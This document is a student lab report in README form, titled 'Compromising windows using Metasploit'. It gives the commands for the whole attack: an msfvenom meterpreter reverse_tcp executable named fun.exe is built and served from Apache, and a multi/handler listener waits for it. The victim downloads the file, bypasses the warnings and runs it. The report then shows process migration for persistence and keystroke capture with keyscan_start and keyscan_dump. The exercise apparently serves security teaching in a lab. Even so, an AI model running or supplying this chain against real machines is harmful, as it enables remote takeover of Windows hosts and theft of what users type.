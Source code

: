 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

### BY: HARI PRASATH. P
### REG. NO: 212223230070

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
PROGRAM: Find the attackers ip address using ifconfig
![Screenshot 2025-04-19 140534](https://github.com/user-attachments/assets/fc5d6892-8ae7-4444-98dd-35e8b8b6e698)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe copy the fun.exe into the apache /var/www/html folder Start apache server sudo systemctl apache2 start Check the status of apache2 sudo apache2 status
## output:
![Screenshot 2025-04-19 142126](https://github.com/user-attachments/assets/3df01d98-0aab-49b5-b347-4107bd914b23)
Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole. Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## output:
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![431915762-729dc34c-b5b1-4cc6-8770-22d2331caede](https://github.com/user-attachments/assets/9d271d68-4a2f-453c-ac8b-8bca86c8b4bb)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
![431915851-d93cac14-3fc3-444b-8159-bc2e0bc66d3a](https://github.com/user-attachments/assets/f2ca75f7-2887-4336-ae2e-12c6013105cb)
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![431915958-2cfb6dd1-773b-4b42-9cd5-6cbb204a3145](https://github.com/user-attachments/assets/5648e16b-3be2-4722-806d-4ddfbe014106)


Post Exploitation: The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far 

![431916021-0810a377-a529-4f89-896e-af33fad9b043](https://github.com/user-attachments/assets/b5f08410-8ba5-4300-9044-0611f4724bbb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

